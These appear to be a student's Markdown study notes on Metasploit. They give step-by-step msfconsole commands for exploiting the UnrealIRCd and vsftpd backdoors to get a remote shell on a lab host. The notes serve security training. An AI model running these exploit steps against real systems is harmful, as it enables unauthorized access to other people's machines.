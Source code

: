 #Metasploit


metasploit can be used to: 
- create trojan horses
- run attacks


https://docs.metasploit.com


https://www.youtube.com/watch?v=oBAC5UfalC8


### Example attack: Remote shell via IRC vulnerability 
From the Nessus scan i know that iloveshells.vm.vuln.land has a critical vulnerability that allows remote shell execution via IRC. To exploit this, i did the following. 
- `msfconsole` start it from console (now we can enter specific commands)
- `search irc` -> will show exploits (because the got "exploits" in their path/name) 
    - found unrealRDC 
- `use exploit/unix/irc/unreal_ircd_3281_backdoor` 
- `set RHOSTS iloveshells.vm.vuln.land` 
- `set payload payload/cmd/unix/bind_perl`
- `exploit`

 works :-)  we got our shell and can now run bash commands. Maybe it is because I don't know linux bash not very well (or metasploit, shell etc.) but I cannot really navigate in the folder. "cd .." doesn't seem to work to explore the file system. However, i can still do it via `ls / -al` to see the root dir and from there I coud use cat or pipes etc. to explore the system. 

(taken from exercise Gaining access 2 )

### Example attack on FTP vulnerability (see video)

- `msfconsole` start it from console (now we can enter specific commands)
- `search exploits` -> will show exploits (because the got "exploits" in their path/name) 
- `search vsftp`  -> search for exploit that has "vsftp" in its path/name
- `use exploit/unix/ftp/vsftpd_234_backdoor` use/run specific exploit (full path) > command promt will change (now can enter commands for that particular exploit)
    - `options` -> exists for every exploit
    - `set RHOSTS iloveshells.vm.vuln.land`  to set server to be attacked for the vsftpd exploit
        - you can run options again to see if it appears in options now
    - `show payloads` -> will show payloads that are available for this server (if there is only one it will automatically choose the only one available)$
    - `exploit` -> run/start acutal exploit (if there is only one exploit there we can leave out the payload)
        - with this exploit (vsftpd) a shell is now open (other exploits will provide different feedback) and we can now run commands on this shell which are executed on iloveshells.vm.vuln.land

(taken from video: https://www.youtube.com/watch?v=oBAC5UfalC8   )
